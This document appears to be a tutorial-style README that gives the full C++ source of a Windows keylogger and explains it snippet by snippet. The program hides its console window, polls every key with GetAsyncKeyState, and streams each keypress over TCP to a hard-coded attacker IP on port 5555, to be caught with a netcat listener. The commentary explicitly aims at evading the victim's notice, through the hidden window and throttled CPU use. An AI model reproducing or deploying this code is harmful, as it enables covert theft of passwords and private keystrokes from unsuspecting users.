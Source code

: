 # C++ Keylogger

### Code

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_addr.s_addr = inet_addr("10.10.15.2");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);

    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) & 0x8000) {
                char buffer[2];
                buffer[0] = KEY;
                send(server, buffer, sizeof(buffer), 0);
            }
        }
    }

    closesocket(server);
    WSACleanup();
}
```



### Compilation

Add the flag **-lws2\_32** for the linker:



### Description:

The above code would send the keystrokes (only printable characters) of the user to the attacker's machine over a TCP connection, on port 5555.

On the attacker's end, we will be using netcat to setup a listener on port 5555 and receive the data sent by the keylogger program.



### Explanation:

#### Snippet 1:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
```

Explanation: We use winsock utilities and we do not want the compiler to complain about older functionalities used, since the below code is sufficient for our needs.

#### Snippet 2:

```cpp
#pragma comment(lib, "Ws2_32.lib")
```

Explanation: We need the Ws2\_32.lib library in order to use sockets (networking) functionality in Windows.

#### Snippet 3:

```cpp
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
```

Explanation: Here we have included some header files. These are:

* **iostream:** includes standard input/output utilities
* **winsock2.h:** includes networking utilities
* **stdio.h:** includes standard input/output utilities (needed for perror())
* **stdlib.h:** includes standard input/output utilities
* **Windows.h:** includes Windows libraries

#### Snippet 4:

```cpp
ShowWindow(GetConsoleWindow(), SW_HIDE);
```

Explanation: To hide the program window so that it's not obvious to the victim that this program is running!

#### Snippet 5:

```cpp
char KEY;
```

Explanation: This variable would hold a single key, for which we would check the status (if it's pressed or not).

#### Snippet 6:

```cpp
WSADATA WSAData;
SOCKET server;
SOCKADDR_IN addr;
```

* WSADATA: This data type (it's a struct) holds information about windows socket implementation.
* SOCKET: This data type stores the connection of the SOCKET type.
* SOCKADDR\_IN: This data type (it's a struct) holds the details of socket connection.

This must make clear what the purpose of the variables mentioned in the above snippet would be.

#### Snippet 7:

```cpp
WSAStartup(MAKEWORD(2, 0), &WSAData);
```

Explanation: Initialize usage of the winsock library (needed for opening a network connection).

#### Snippet 8:

```cpp
server = socket(AF_INET, SOCK_STREAM, 0);
```

Explanation: Set up a TCP socket. AF\_INET means address family for IPv4. SOCK\_STREAM means that we want a TCP socket.

#### Snippet 9:

```cpp
addr.sin_addr.s_addr = inet_addr("10.10.15.2");
addr.sin_family = AF_INET;
addr.sin_port = htons(5555);
```

Explanation: The above snippet would set the IP address of the target we wish to sent the data to (that would be the attacker's IP address). The port used would be 5555 and the IP address is IPv4 which is indicated by AF\_INET.

#### Snippet 10:

```cpp
connect(server, (SOCKADDR *)&addr, sizeof(addr));
```

Explanation: Connect to the previously set up target host/port.

#### Snippet 11:

```cpp
while (true) {
    Sleep(10);
    for (int KEY = 0x8; KEY < 0xFF; KEY++)
    {
        if (GetAsyncKeyState(KEY) & 0x8000) {
            char buffer[2];
            buffer[0] = KEY;
            send(server, buffer, sizeof(buffer), 0);
        }
    }
}
```

Explanation: The above snippet would run an infinite loop and and check if any of the keys in the range (0x8 to 0xFF). Then the GetAsyncKeyState function checks if that key is in pressed state (check the 2nd point of the note below). If the key we checked for is in pressed state, send the pressed key's ASCII value to the attacker over the established TCP socket.

Note: 1. If you are wondering why 0x1-0x7 are not included, check the list of virtual keycodes here. The range of keycodes from 0x1-0x7 are uninteresting from a keylogger's perspective and that's why they are ignored! If you wish to log only the printable characters, you can further narrow down the range of the loop.

As per the GetAsyncKeyState function's documentation: If the function succeeds, the return value specifies whether the key was pressed since the last call to GetAsyncKeyState, and whether the key is currently up or down. If the most significant bit is set, the key is down, and if the least significant bit is set, the key was pressed after the previous call to GetAsyncKeyState. However, you should not rely on this last behavior

So if the most significant bit was set, the key is currently pressed! And that's what & 0x8000 does. It checks if the MSB is set to 1.

If you notice, there's a call to Sleep function as well. That would prevent this keylogger to consume a lot of CPU cycles and thus prevent spiking the CPU usage, which could slow down the machine and even give an indication to the victim that something unusual is wrong on!

#### Snippet 12:

```cpp
closesocket(server);
```

Explanation: Close the socket.

#### Snippet 13:

```cpp
WSACleanup();
```

Explanation: Clean up the Winsock library components.

